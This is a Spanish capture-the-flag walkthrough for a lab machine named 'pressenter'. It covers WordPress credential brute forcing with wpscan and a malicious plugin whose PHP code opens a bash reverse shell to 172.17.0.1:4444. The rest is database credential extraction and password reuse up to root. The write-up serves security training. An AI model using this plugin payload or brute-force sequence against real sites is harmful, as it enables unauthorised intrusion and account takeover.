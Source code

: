 ```yaml
---
Maquina: pressenter
SO: Linux
Explotación: Análisis web y fuerza bruta
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - linux
  - escala_privs
  - ssh
  - web
  - fuerza_bruta
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241111084751.png]]

Por lo que podemos observar hay tan solo un portal web activo así que nos tocará hacer un buen análisis web.

1.- Código fuente -> no se aprecian comentarios notorios.

2.- Análisis de subdirectorios con herramientas como dirb o gobuster -> Se encuentran solo un par de directorios y ambos con permisos muy reducidos.

3.- Análisis profundo de la web principal que observamos.

![[Pasted image 20241111090355.png]]

Si nos fijamos en la parte de abajo vemos que hay un dominio con el que podemos descubrir más sobre los creadores del protal web.

![[Pasted image 20241111091934.png]]

Si hay algo que me llama mucho la atención es el nombre de "perssi". Puede que nos acerquemos al acceso de su wordpress... Vamos a probar a un ataque de fuerza bruta a ver si podemos encontrar sus credenciales.

```bash
wpscan --url http://pressenter.hl/ --usernames pressi --passwords /home/alejandro/wordlists/rockyou.txt
```

![[Pasted image 20241111092048.png]]

Pues resuelta que sí -> pressi y dumbass. Vamos a intentar acceder con estas credenciales.

![[Pasted image 20241111092144.png]]

Estamos dentro! Pues vamos a intentar hacer un clásico de WordPress y crear un plugin que en realidad sea un reverse shell.

```bash
nano revershell.php #Vamos a configurar el archivo de reverse shell
```

```php
#Codigo de reverse shell ->
<?php
/*
Plugin Name: Plugin Malicioso
Description: Plugin para pruebas de seguridad en un entorno controlado.
Version: 1.0
Author: Pepito
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'");
?>

```

```bash
zip -r plugin.zip revershell.php #Lo comprimimos para poder subirlo a wordpress
```

Una vez tenemos el plugin listo nos vamos al portal web de wordpress, añadir plugins -> subir plugin -> subimos el plugin e instalamos ahora y la mágia aparece cuando activamos el plugin.

![[Pasted image 20241111093412.png]]

Estamos dentro ;)

Ahora vamos a hacer el proceso de upgrade de tty de siempre y vamos a ver los premisos que tenemos.

![[Pasted image 20241111093622.png]]

Ya tenemos una tty funcional, pero me temo que no tenemos ningún tipo de passwd... Vamos a ver que nos encontramos de interés..

Para intentar ver el usuario de la base de datos desde el www-data podemos intentar acceder al wp-config.php ->

![[Pasted image 20241111095741.png]]

Parece que tenemos algo interesante (admin, rooteable), vamos a ver si podemos acceder a la base de datos.

![[Pasted image 20241111095927.png]]

Parece que estamos dentro de la base de datos, vamos a ver si tienen algo interesante...

![[Pasted image 20241111100115.png]]

```mysql
#Recopilación de comandos usados:
show databases;

use wordpress;

show tables;

select * from wp_usernames;
```

Pero bueno, que tenemos aquí, parece que tenemos el nombre de usuario y la passwd de un posible usuario del sistema... (Enter y kernellinuxhack)

![[Pasted image 20241111100156.png]]

Sorpresa... Estamos dentro del usuario Enter, ahora vamos a ver si tiene permisos ->

![[Pasted image 20241111100702.png]]

Por lo que vemos tenemos unos pocos permisos para poder leer cualquier tipo de documento y curiosamente tenemos un documento un poco peculiar en nuestro directorio con el siguiente contenido -> 4a05a7bc45edb56b1f033ca1606e176c.

![[Pasted image 20241111100829.png]]

Pero por desgracia solo se trata de un elemento que nos hace perder el tiempo. El verdado misterio se revela cuando probamos la contraseña de enter en root ->

![[Pasted image 20241111101330.png]]




